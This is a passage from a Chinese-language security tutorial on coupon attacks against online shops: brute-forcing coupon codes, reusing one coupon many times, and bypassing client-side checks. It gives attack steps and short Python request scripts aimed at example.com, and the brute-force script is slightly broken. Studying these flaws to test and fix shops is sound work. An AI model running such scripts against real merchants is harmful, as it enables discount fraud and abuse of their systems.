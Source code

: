 **攻击步骤**：
1. 确定优惠券的长度和字符集。
2. 编写脚本，尝试所有可能的优惠券组合。
3. 使用有效的优惠券进行未授权的优惠获取。

**实验环境搭建**：
- 使用Python编写优惠券暴力破解脚本。
- 使用Burp Suite进行自动化测试。

**代码示例**：
```python
import itertools
import requests

def brute_force_coupon():
    chars = string.ascii_uppercase + string.digits
    for length in range(6, 10):
        for coupon in itertools.product(chars, repeat=length):
            coupon_code = ''.join(coupon)
            response = requests.post('https://example.com/apply_coupon', data={'coupon': coupon_code})
            if response.status_code == 200:
                print(f"Valid coupon found: {coupon_code}")
                break
```

### 2.3 优惠券重复使用
**攻击原理**：如果服务器端未记录优惠券的使用情况，攻击者可以通过多次提交优惠券请求实现重复使用。

**攻击步骤**：
1. 获取一个有效的优惠券。
2. 多次提交优惠券请求，观察是否每次都能成功使用。
3. 如果成功，说明服务器端未记录优惠券的使用情况。

**实验环境搭建**：
- 使用Postman进行多次优惠券请求测试。
- 使用Wireshark捕获优惠券使用请求，分析服务器端响应。

**代码示例**：
```python
import requests

def repeat_coupon_use(coupon_code):
    for i in range(10):
        response = requests.post('https://example.com/apply_coupon', data={'coupon': coupon_code})
        if response.status_code == 200:
            print(f"Coupon successfully used {i+1} times")
        else:
            print("Coupon use failed")
            break
```

### 2.4 优惠券绕过验证
**攻击原理**：如果优惠券的验证逻辑仅在客户端进行，攻击者可以通过修改客户端代码绕过验证。
